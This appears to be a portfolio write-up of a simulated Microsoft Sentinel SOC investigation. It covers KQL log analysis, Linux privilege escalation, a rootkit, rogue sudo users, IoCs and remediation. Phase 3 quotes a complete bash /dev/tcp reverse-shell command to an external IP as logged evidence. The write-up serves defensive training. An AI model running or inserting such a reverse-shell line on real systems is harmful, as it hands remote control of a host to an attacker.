# Azure Sentinel SOC Investigation: Linux Privilege Escalation & Persistence

## Executive Summary
This project demonstrates a simulated Security Operations Center (SOC) investigation within a **Microsoft Azure** environment. The scenario involves triaging high-severity alerts, analyzing logs using **KQL (Kusto Query Language)**, and reconstructing an attack chain that involves Linux Privilege Escalation, unauthorized SSH access, and Persistence mechanisms mapped to the **MITRE ATT&CK** framework.

The objective was to act as a SOC Analyst, prioritizing incidents, filtering out noise, and identifying Indicators of Compromise (IoCs) related to a coordinated attack on the organization's cloud infrastructure.

## Environment & Tools
* **SIEM:** Microsoft Sentinel (Cloud-native)
* **Cloud Provider:** Microsoft Azure
* **Query Language:** KQL (Kusto Query Language)
* **Log Sources:** Syslog (Linux), AzureActivity, SecurityEvents

---

## Phase 1: Alert Triage & Prioritization

Upon logging into the Azure Sentinel dashboard, a significant spike in alerts was observed. The dashboard indicated multiple suspicious activities targeting Linux Virtual Machines within the tenant.



### Log Availability Check
Before diving into alerts, I verified log ingestion to ensure data freshness. I confirmed that `Syslog` data was flowing correctly from the connected Linux hosts.


### The Incident Queue
Navigating to the **Incidents** blade, I filtered for **High Severity** alerts to prioritize threats that posed an immediate risk to business operations. The queue revealed potential privilege escalation attempts involving `Polkit` vulnerabilities and suspicious user additions to privileged groups.



**Triage Strategy:**
* **Focus:** High Severity incidents first.
* **Alert:** "Linux PrivEsc - Polkit Exploit Attempt".
* **Impact:** Potential root compromise of critical hosts.

---

## Phase 2: Investigation & Log Analysis

I began a deep dive into the **Polkit Exploit Attempt** (Incident #1102). The incident timeline showed a cluster of events involving multiple entities (`db-01`, `storage-01`, `build-04`, `workstation-09`).




### Correlating Events
Further analysis of related alerts revealed a pattern. Specifically, the alert **"Linux PrivEsc - User Added to Sudo Group"** was triggered, indicating that the attacker was not only escalating privileges but attempting to establish persistence.



### Analyzing Raw Evidence
To validate the alerts, I drilled down into the **Events** tab to view the raw log entries associated with the alert before running custom queries. We can see the actual name of the kernel module installed in each machine and the time it was installed.



### Deep Dive with KQL
To validate the alerts, I switched to the **Logs** blade to query the raw `Syslog` data. I focused on the host `app-02` using a specific timeframe to reconstruct the sequence of events.

**KQL Query Used:**
```kusto
Syslog_CL
| where host_s == 'app-02'
| project _timestamp_t, host_s, Message
| sort by _timestamp_t desc
```


### Key Findings on Host `app-02`

The query results revealed a critical chain of malicious activities:

**1.  Persistence**: The attacker added a user named `Alice` and `backupuser` to the `sudo` group.

**2.  Exfiltration Prep**: A command was executed to copy the sensitive `/etc/shadow` file to `/tmp/shadow.bak` (Evidence of credential theft).

**3.  Rootkit Installation**: A malicious kernel module named `malicious_mod.ko` was inserted.




## Phase 3: Broader Infrastructure Compromise
Expanding the investigation to other hosts mentioned in the alerts (`websrv-01`, `storage-01`, `app-01`), I uncovered further evidence of lateral movement and Command & Control (C2) activity.

**1. Reverse Shell on `websrv-01`**

On the web server, I identified a suspicious command execution by the ops user. The command opened a reverse shell connection to an external IP.

* **Command:** `/bin/bash -i >& /dev/tcp/198.51.100.22/4444 0>&1`.

* **Observation:** This establishes a direct connection back to the attacker, bypassing inbound firewall rules.



**2. Unauthorized Access on `storage-01`**

Logs indicated a successful SSH login to the storage server from an internal IP, suggesting lateral movement within the network.

* Source IP: 172.16.0.12.
* User: Root



**3. External Breach on `app-01`**

Finally, I traced the entry point on `app-01`. The logs showed a successful root login from a known malicious external IP address. Additionally, a new user named `deploy` was added to the sudoers group to maintain access.



* Attacker IP: 203.0.113.45.



* Persistence User: deploy.

## Incident Verdict & Indicators of Compromise (IoCs)
Based on the investigation, this incident is classified as a True Positive. The attacker successfully gained initial access, escalated privileges to root, installed malicious kernel modules, and established persistence across multiple Linux hosts.

Identified IoCs

| Type | Value | Context |
| :--- | :--- | :--- |
| IP Address | `203.0.113.45`| External Attacker IP (Initial Access on app-01) |
| IP Address | `198.51.100.22` | C2 Destination for Reverse Shell |
| IP Address | `172.16.0.12` | Internal IP used for Lateral Movement |
| File | `malicious_mod.ko` | Malicious Kernel Module |
| File | `/tmp/shadow.bak` | Stolen credential dump |
| User Account | `deploy` | Rogue account added to sudoers |
| User Account | `Alice` | Rogue account added to sudoers |


## Remediation Steps (Simulated)
In a real-world scenario, the following actions would be recommended:

1.  Isolate affected hosts (`app-02`, `websrv-01`, `storage-01`, `app-01`) from the network immediately.

2.  Block inbound/outbound traffic to IPs `203.0.113.45` and `198.51.100.22` at the perimeter firewall.

3.  Snapshot the compromised VMs for forensic analysis.

4.  Reimage the compromised hosts; do not attempt to clean rootkits/kernel modules manually.

5.  Rotate all SSH keys and administrative credentials across the environment.
